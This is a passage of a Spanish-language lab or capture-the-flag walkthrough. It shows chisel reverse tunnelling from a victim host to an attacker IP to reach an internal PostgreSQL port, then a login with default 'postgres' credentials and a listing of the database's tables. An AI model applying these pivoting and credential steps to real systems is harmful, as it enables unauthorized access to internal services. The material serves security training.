 - La víctima crea una conexión a `10.10.16.2:1234` (tu Parrot).
    
- A través de esa conexión, te permite acceder a su puerto `80` local (en su `127.0.0.1`) como si estuviera en `127.0.0.1:8080` **desde tu máquina atacante**.
    

`-p 1234` Esto le indica al servidor que escuche en el **puerto 1234**.


**¿Cuándo usarlo?**

- No puedes hacer un **bind shell** o **reverseshell** por cortafuegos o NAT.
    
- Necesitas **pivotear** o acceder a servicios internos de la víctima.
    
- Estás en una red interna y quieres **túneles seguros** desde la víctima a tu equipo.

---

Acción: *segundo desde la víctima*

```bash
./chisel client 10.10.16.8:1234 R:5432:172.22.0.1:5432
```

Acción: desde nuestro equipo atacante podremos acceder al puerto 5432 de la víctima de forma indirecta

```bash
curl http://127.0.0.1:5432
```

Explicación:

### Paso 5

Acción:

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```

Resultado:

```bash
Contraseña para usuario postgres: <postgres>
psql (15.12 (Debian 15.12-0+deb12u2), servidor 13.7 (Debian 13.7-1.pgdg110+1))
Digite «help» para obtener ayuda.

postgres=# 
```

Acción:

```bash
postgres=# \l
postgres=# \c mentorquotes_db
psql (15.12 (Debian 15.12-0+deb12u2), servidor 13.7 (Debian 13.7-1.pgdg110+1))
Ahora está conectado a la base de datos «mentorquotes_db» con el usuario «postgres».
mentorquotes_db=# \dt
         Listado de relaciones
 Esquema |  Nombre  | Tipo  |  Dueño   
---------+----------+-------+----------
 public  | cmd_exec | tabla | postgres
 public  | quotes   | tabla | postgres
 public  | users    | tabla | postgres
(3 filas)
```
